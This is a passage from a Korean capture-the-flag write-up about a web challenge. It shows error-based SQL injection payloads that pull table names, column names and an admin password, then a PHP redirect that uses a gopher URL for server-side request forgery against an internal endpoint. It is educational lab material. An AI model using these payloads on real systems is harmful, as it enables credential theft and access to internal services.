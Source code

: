 ```python
'INNODB_METRICS$1' for key '<group_
'INNODB_SYS_FOREIGN_COLS$1' for key
'INNODB_CMPMEM$1' for key '<group_k
'INNODB_BUFFER_POOL_STATS$1' for ke
'INNODB_SYS_COLUMNS$1' for key '<gr
'INNODB_SYS_FOREIGN$1' for key '<gr
'INNODB_SYS_TABLESTATS$1' for key '
'auth_user$1' for key '<group_key>'
​
 """
```
​
table들을 쭉 뽑아보니 auth\_user라는 굉장히 수상한 table이 보인다.<br>참고로 table이름 뒤의 $와 1은 '$',floor(rand(0)\*2)를 table\_name과 concat() 해줘서 그렇다. 이제 auth\_user 의 column과 admin password를 뽑아낼 차례다.
​
``` python
# Columns
payload = "admin' union (select 1,count(*),concat((select column_name from information_schema.columns where table_name='auth_user' limit "+str(i)+",1),'$',floor(rand(0)*2))as b from information_schema.tables group by b)#:admin"
​
id
login 
password
​
=======================================================================================================================================================================================================================================
​
# password
payload = "admin' union (select 1,count(*),concat((select password from auth_user where login='admin' limit "+str(i)+",1),'$',floor(rand(0)*2))as b from information_schema.tables group by b)#:admin"
​
Error message : Duplicate entry 'WACon{Try_using_Gophhhher$1' for key '<group_key>'
```
​
**WACon{Try\_using\_Gophhhher**<br><br>
​
FLAG의 반을 획득했다! 나머지 반을 얻어보자. Gopher라는 힌트를 주는 것을 보니 나머지 반은 Gopher protocol을 이용한 SSRF로 얻을 수 있을 것 같다. 
​<br><br><br>

****

## **5. SSRF using gopher protocol**
​**3. SSRF** 로 돌아가 생각해 보면 SSRF를 위해 필요한 조건이 두가지 있다.<br><br>
**1\. Authorization: Basic Header**<br>
​**2\. POST**
​<br><br>
[gopher SSRF](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery) 를 참고하여 두 조건을 모두 만족할 수 있도록 아래 PHP 파일에 접근 하도록 했다.
​
```php
<?php 
header("Location: gopher://127.0.0.1:80/_POST%20/internal_1d607d2c193b.php%20HTTP/1.1%0D%0AHost:%20127.0.0.1%0D%0AAccept:%20application/gopher%0D%0AAuthorization:%20Basic YWRtaW46V0FDb257VHJ5X3VzaW5nX0dvcGhoaGhlcg==%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0AContent-Length:%205%0D%0A%0D%0Ahi=hi"); 
?>
```
​
